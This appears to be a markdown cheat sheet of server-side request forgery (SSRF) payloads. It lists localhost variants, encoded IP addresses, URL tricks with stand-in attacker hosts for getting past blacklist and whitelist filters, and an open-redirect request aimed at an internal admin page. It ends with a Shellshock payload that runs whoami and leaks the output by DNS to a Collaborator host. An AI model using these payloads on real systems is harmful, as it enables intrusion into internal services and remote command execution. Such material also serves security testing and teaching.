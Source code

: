 ## Commom method
```txt
http://localhost/
http://127.0.0.1/
```
## Circumventing common SSRF defenses
___
### SSRF with blacklist-based input filters
```txt
http://127.1
http://2130706433
http://017700000001
http://spoofed.burpcollaborator.net
```
### SSRF with whitelist-based input filters
#### You can embed credentials in a URL before the hostname, using the @ character. For example:
```txt
    https://expected-host:fakepassword@evil-host
    https://burpcollaborator.net@evil-host
```
#### You can use the # character to indicate a URL fragment. For example:
```txt
    https://evil-host#expected-host
    https://evil-host#burpcollaborator.net
```
#### You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```txt
    https://expected-host.evil-host
    https://burpcollaborator.net.evil-host
```
### Bypassing SSRF filters via open redirection
#### For example, the application contains an open redirection vulnerability in which the following URL (http://evil-user.net):
```txt
/product/nextProduct?currentProductId=6&path=http://evil-user.net
```
#### You can leverage the open redirection vulnerability to bypass the URL filter, and exploit the SSRF vulnerability as follows: 
```txt
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin
```
```txt
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN >> For exploiting shellshock vulnerability via SSRF
```
